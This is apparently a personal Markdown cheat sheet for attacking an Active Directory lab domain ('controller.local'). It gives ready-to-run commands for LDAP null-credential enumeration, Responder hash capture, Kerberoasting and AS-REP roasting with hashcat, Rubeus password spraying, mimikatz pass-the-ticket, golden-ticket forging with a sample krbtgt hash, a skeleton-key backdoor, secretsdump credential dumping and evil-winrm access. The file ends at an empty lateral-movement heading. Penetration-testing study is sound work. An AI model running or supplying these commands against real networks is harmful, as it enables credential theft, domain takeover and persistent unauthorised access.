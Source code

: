 # Top Keys #
  1. Make sure you have added the domain to your /etc/hosts file
  2. You can search the hash using hashcat https://hashcat.net/wiki/doku.php?id=example_hashes 
  3. grep -i (ignore case helpful when searching output for password or hashes)


# LDAP #
1. Basic Search
  
  a. ldapsearch -h $ip -p 389 -x -s base
  
2. Null creds to try and get list of usernames
  a. ldapsearch -x -h $ip -D '' -w '' -b "DC=controller,DC=local"
  b. Can clean up output with grep also search for passwords! Remember grep case sensistive grep -i (ignore case)

# Responder #
1. Start up responder
  a. sudo responder -I tun0
  b. Call request either smb or website (download a file from your python server)
  c. Capture the NTLM hash you get

# Kerberute #
  1. Enumerate Users from Kali
     a ./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
 
 # Rubeus #
  1. Harvest ticket caches
    a Rubeus.exe harvest /interval:30
  2. Brute force Password1 against all users
    a Rubeus.exe brute /password:Password1 /noticket
  3. Kerberoast -dump hashes of any kerberoastable users
    a Rubeus.exe kerberoast
    b Copy hash to hash.txr watch out for spaces
    c hashcat -m 13100 -a 0 hash.txt rockyou.txt
    
    
# ASREP Roasting # 
  1. Rubeus 
    a. rubeus.exe asreproast
    b Get all accounts that do not require pre authentication
    c Insert 23$ after $krb5asrep$ so for proper hash formating
    d hashcat -m 18200 hash.txt rockyou.txt
  2. Impacket GetNPUsers.py
    a. sudo python3 /opt/impacket/GetNPUsers.py CONTROLLER.local/ -usersfile users.txt -format hashcat
    b.  hashcat -m 18200 hash.txt rockyou.txt
 
 # mimikatz #
 1. ALWAYS RUN AS ADMIN
 2. Pass the Ticket
    a privilege::debug
    b sekurlsa::tickets /export (this will export all the tickets into your current directory)
    c Choose a ticket with admin (or user you want)
    d kerberos::ptt <ticket file name>
    e exit mimi
    f klist (show that you have now changed)
 3. Gold and Silver Tickets
    a run as admin
    b privilege::debug
    c lsadump::lsa /inject /name:krbtgt (this will dump the hash and security identifier krbtgt can be changed to other account names like sqlservice  or bob)
    d Gold ticket -> 			i. Kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:72cd714611b64cd4d5550cd2759db3f6 /id:500
 4. Mimikatz skeleton
		a. run as admin
		b. privilege::debug
		c. misc::skeleton
		d. Exit and you can read shares with default creds mimikatz
			The default credentials will be: "mimikatz"			
			example: net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz - The share will now be accessible without the need for the Administrators password			
      example: dir \\Desktop-1\c$ /user:Machine1 mimikatz - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1![image](https://user-images.githubusercontent.com/6464797/152891832-b09edb4c-c062-4219-a5d3-fa8262a52d4d.png)

# Secrets Dump #
1. Impacket Secrets Dump if you have creds of admin or backup account
  a. sudo python3 /opt/impacket/examples/secretsdump.py controller.local/admin:password@controller.local
  b. You will get the NTLM hashes 
  
 #Remote In #
  1. evil-winrm -i $ip -u user -p password
  
 # Priv Esc #
 1. If LAPS is in program files
    a. ldapsearch -x -h $ip -D user@controller.local -w password -b "DC=controller,DC=local"  "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
    b. Powershell schedule task to run rev shell with admin priv?

  #Lateral Movements #

 

